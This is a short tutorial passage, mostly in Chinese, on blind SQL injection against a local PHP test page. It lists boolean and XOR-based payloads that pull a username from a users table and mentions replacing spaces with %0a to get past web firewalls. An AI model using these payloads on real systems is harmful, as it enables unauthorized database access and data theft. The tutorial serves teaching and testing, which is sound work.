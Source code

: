 像上面那样的基本的盲注如下。

```
http://127.0.0.1/info.php?num=1 and 1=0
http://127.0.0.1/info.php?num=1 and 1=1 
```

在 Blind SQL Injection 可以使用运算符=。

```
http://192.168.137.129/info.php?num=1=0

http://192.168.137.129/info.php?num=1=1 
```

自然也能使用其它的运算符。

```
http://127.0.0.1/info.php?num=1<>0

http://127.0.0.1/info.php?num=1<>1

http://127.0.0.1/info.php?num=1<0

http://127.0.0.1/info.php?num=1<1

http://127.0.0.1/info.php?num=1*0*0*1

http://127.0.0.1/info.php?num=1*0*0*0

http://127.0.0.1/info.php?num=1%1%1%0

http://127.0.0.1/info.php?num=1%1%1%1

http://127.0.0.1/info.php?num=1 div 0
http://127.0.0.1/info.php?num=1 div 1

http://127.0.0.1/info.php?num=1 regexp 0
http://127.0.0.1/info.php?num=1 regexp 1

http://127.0.0.1/info.php?num=1⁰

http://127.0.0.1/info.php?num=1¹ 
```

攻击示例：

```
http://127.0.0.1/info.php?num=0^(locate(0x61,(select id from users where num=1),1)=1)
http://127.0.0.1/info.php?num=0^(select position(0x61 in (select id from users where num=1))=1)
http://127.0.0.1/info.php?num=0^(reverse(reverse((select id from users where num=1)))=0x61646d696e)
http://127.0.0.1/info.php?num=0^(lcase((select id from users where num=1))=0x61646d696e)
http://127.0.0.1/info.php?num=0^((select id from users where num=1)=0x61646d696e)
http://127.0.0.1/info.php?num=0^(id regexp 0x61646d696e)

http://127.0.0.1/info.php?num=0^(id=0x61646d696e)

http://127.0.0.1/info.php?num=0^((select octet_length(id) from users where num=1)=5)
http://127.0.0.1/info.php?num=0^((select character_length(id) from users where num=1)=5)

If I will show all attack, I have to take much time, So I stopped in this time. Blind SQL Injection is difficult manually, So using tool will be more effective. I will show a tool made python, this is an example using ^(XOR) bitwise operation. In order to make the most of detouring the web firewall, I replaced space with %0a. 
```
